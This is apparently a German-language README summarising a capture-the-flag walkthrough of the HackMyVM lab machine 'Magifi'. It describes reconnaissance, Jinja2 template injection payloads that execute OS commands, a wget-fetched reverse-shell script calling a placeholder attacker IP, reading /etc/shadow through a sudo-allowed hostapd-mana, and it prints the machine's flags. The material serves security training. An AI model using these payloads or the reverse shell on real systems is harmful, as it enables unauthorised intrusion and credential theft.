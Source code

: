 # Magifi - HackMyVM Lösungsweg

![Magifi VM Icon](Magifi.png)

Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "Magifi".

## Details zur Maschine & zum Writeup

*   **VM-Name:** Magifi
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Schwer (Hard)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Magifi](https://hackmyvm.eu/machines/machine.php?vm=Magifi)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/Magifi_HackMyVM_Hard/](https://alientec1908.github.io/Magifi_HackMyVM_Hard/)
*   **Datum des Originalberichts:** 12. Februar 2025

## Verwendete Tools

*   Shell Script (`recon_script.sh`)
*   `arp-scan`
*   `echo`
*   `nmap`
*   `grep`
*   `curl`
*   `nikto`
*   `gobuster`
*   `python3` (insb. `http.server`)
*   `nc` (netcat) / `ncat`
*   `wget`
*   `chmod`
*   `mv`
*   `pwd`
*   `ls`
*   `cat`
*   `ssh`
*   `sudo`
*   `find`
*   `hostapd-mana`
*   `john` (John the Ripper)

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Reconnaissance (Aufklärung)

*   Ein benutzerdefiniertes Skript (`recon_script.sh`) identifizierte die Ziel-IP `192.168.2.175` und den Hostnamen `magifi.hmv` (Eintrag in `/etc/hosts` des Angreifers).
*   Ein `nmap`-Scan (`nmap -sS -sC -sV -AO -p- $IP -Pn --min-rate 5000`) ergab:
    *   **Port 22/tcp (SSH):** Offen (OpenSSH 8.2p1 Ubuntu).
    *   **Port 80/tcp (HTTP):** Offen (Werkzeug/3.0.4 Python/3.8.10).
        *   Der Nmap-Scan zeigte eine **Weiterleitung (HTTP 302) auf `http://hogwarts.htb`**.
*   Der Hostname `hogwarts.htb` wurde ebenfalls der IP `192.168.2.175` in der `/etc/hosts`-Datei des Angreifers zugeordnet.
*   Ein `nmap`-Vulnerability-Scan (`nmap -sV -A --script vuln ...`) gegen die SSH-Version 8.2p1 identifizierte potenzielle Schwachstellen, darunter **CVE-2023-38408**. Der Webserver wurde als anfällig für **Slowloris DoS (CVE-2007-6750)** eingestuft.

### 2. Web Enumeration (Web-Aufklärung)

*   Scans und manuelle Untersuchung von `http://hogwarts.htb`:
    *   `gobuster` (gegen `http://hogwarts.htb`) fand den Pfad `/upload` (Status 405 - Method Not Allowed, was auf eine POST-Anfrage hindeutet).
    *   Im Quelltext der Webseite wurde ein Upload-Formular für eine Bewerbung gefunden (`action="/upload" method="POST"`).
    *   Das Formular forderte PDF-Dateien, stellte aber eine Vorlage (`application-template.docx`) im DOCX-Format bereit.
    *   Die DOCX-Vorlage enthielt Felder für persönliche Daten (Name, Nachname etc.).

### 3. Initial Access (via Server-Side Template Injection - SSTI)

*   Es wurde vermutet, dass die Felder aus der hochgeladenen DOCX-Datei von einer Template-Engine (wahrscheinlich Jinja2, da Python/Werkzeug) verarbeitet werden.
*   Ein SSTI-Payload wurde in das "Name"-Feld der DOCX-Vorlage eingefügt:
    ```python
    # Beispielhafter SSTI-Payload zum Testen: {{ 7*7 }}
    # Payload zur Ausführung von Befehlen:
    # {{ self.__init__.__globals__.__builtins__.__import__("os").popen("id").read() }}
    ```
*   Durch das Hochladen des modifizierten Dokuments wurde bestätigt, dass der Payload ausgeführt wird.
*   **Remote Code Execution (RCE) wurde erreicht.**
*   Um eine Reverse Shell zu erhalten, wurde ein mehrstufiger Ansatz über SSTI verfolgt:
    1.  Ein Python HTTP-Server wurde auf der Angreifer-Maschine gestartet, um Shell-Skripte bereitzustellen.
    2.  Mittels SSTI wurde `wget` auf dem Zielserver genutzt, um ein Reverse-Shell-Skript (z.B. `rever.sh`) vom Angreifer-Server in das `/tmp`-Verzeichnis herunterzuladen.
        *   Inhalt von `rever.sh`: `bash -c "/bin/bash -i >& /dev/tcp/ANGREIFER_IP/4444 0>&1"`
    3.  Ein Netcat-Listener wurde auf der Angreifer-Maschine auf Port 4444 gestartet.
    4.  Mittels SSTI wurde das heruntergeladene Skript `/tmp/rever.sh` ausführbar gemacht und ausgeführt.
        ```python
        # SSTI-Payload zur Ausführung:
        # {{ self.__init__.__globals__.__builtins__.__import__("os").popen("cd /tmp; chmod +x rever.sh; ./rever.sh").read() }}
        ```
*   **Erfolgreicher Initial Access als Benutzer `harry_potter`**.
*   Der öffentliche SSH-Schlüssel des Angreifers wurde in `/home/harry_potter/.ssh/authorized_keys` platziert, um einen stabilen SSH-Zugang zu ermöglichen.

### 4. Privilege Escalation (Privilegienerweiterung)

*   Als Benutzer `harry_potter` wurde `sudo -l` ausgeführt:
    ```
    User harry_potter may run the following commands on MagiFi:
        (root) NOPASSWD: /usr/sbin/aireplay-ng, /usr/sbin/airmon-ng, /usr/sbin/airodump-ng,
            /usr/bin/airdecap-ng, /usr/bin/hostapd-mana
    ```
*   Die Berechtigung, `hostapd-mana` als `root` ohne Passwort auszuführen, wurde ausgenutzt. `hostapd-mana` erwartet eine Konfigurationsdatei und gibt bei fehlerhafter Syntax den Inhalt der Datei in Fehlermeldungen aus.
*   Auslesen der Root-Flag:
    ```bash
    sudo -u root /usr/bin/hostapd-mana -dd /root/root.txt
    ```
    Die Ausgabe enthielt die Root-Flag in der Fehlermeldung: `Line 1: invalid line 'hogwarts{5ed0818c0181fe97f744d7b1b51dd9c7}'`
*   Auslesen von `/etc/shadow`:
    ```bash
    sudo -u root /usr/bin/hostapd-mana -dd /etc/shadow
    ```
    Dies enthüllte die Passwort-Hashes aller Benutzer. Die Hashes wurden gespeichert und ein (abgebrochener) Versuch unternommen, sie mit `john` zu knacken.
*   Die Suche nach SUID-Binaries (`find / -type f -perm -4000 -ls 2>/dev/null`) zeigte u.a. `/usr/bin/xxd_horcrux` und eine verdächtige SUID-PNG-Datei `/home/tom.riddle/.horcrux.png`, die aber für diesen Lösungsweg nicht weiter verfolgt wurden.

### 5. Flags

*   **User-Flag (`/home/harry_potter/user.txt`):**
    ```
    hogwarts{ea4bc74f09fb69771165e57b1b215de9}
    ```
*   **Root-Flag (`/root/root.txt`), ausgelesen via `hostapd-mana`:**
    ```
    hogwarts{5ed0818c0181fe97f744d7b1b51dd9c7}
    ```

## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "Magifi" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.
